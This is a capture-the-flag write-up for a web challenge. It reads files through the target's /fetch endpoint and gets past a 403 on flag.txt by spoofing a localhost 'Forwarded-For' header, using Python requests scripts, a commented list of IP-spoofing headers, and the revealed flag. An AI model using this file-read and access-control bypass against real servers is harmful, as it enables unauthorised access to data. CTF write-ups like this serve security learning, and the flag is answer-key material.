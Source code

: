 # Web Exploitation

## README

Read me if you can!!

N:B: There is no need to do bruteforce.

Target : http://66.228.53.87:8989/

---

### Solution

The website asks to enter anything to read.

```javascript
<script>
    document.querySelector('form').addEventListener('submit', async function (e) {
        e.preventDefault();
        const url = document.getElementById('file').value;
        const response = await fetch(`/fetch?file=${encodeURIComponent(url)}`);
        const result = await response.json();
        
        // Display the result with a different background
        const resultDiv = document.getElementById('result');
        resultDiv.innerHTML = `<div class="alert alert-info" role="alert">${result.result}</div>`;
    });
</script>
```

Our input will takes as `file` argument and fetch it.

```python
import requests

file = input('Enter file to read: ')

req = requests.get(f'http://66.228.53.87:8989/fetch?file={file}')
print(req.text)

"""
<-- Result -->
Enter file to read: text.txt
{"result":"Yes! You can read files! Dont ask for hint its ezz!!"}

Enter file to read: flag.txt
{"result":"403 Access Denied"}
"""
```

So, we should bypass the 403. I found [this site](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses).

Final payload:

```python
import requests

headers = {
    'Forwarded-For': '127.0.0.1'

    # 'X-Originating-IP': '127.0.0.1',
    # 'X-Forwarded-For': '127.0.0.1',
    # 'X-Forwarded': '127.0.0.1',
    # 'Forwarded-For': '127.0.0.1',
    # 'X-Remote-IP': '127.0.0.1',
    # 'X-Remote-Addr': '127.0.0.1',
    # 'X-ProxyUser-Ip': '127.0.0.1',
    # 'X-Original-URL': '127.0.0.1',
    # 'Client-IP': '127.0.0.1',
    # 'True-Client-IP': '127.0.0.1',
    # 'Cluster-Client-IP': '127.0.0.1',
    # 'X-ProxyUser-Ip': '127.0.0.1',
    # 'Host': 'localhost'
    # or activate all header above
}

req = requests.get(f'http://66.228.53.87:8989/fetch?file=flag.txt', headers=headers)
print(req.text)

# {"result":"KCTF{kud05w3lld0n3!}"}
```

### KCTF{kud05w3lld0n3!}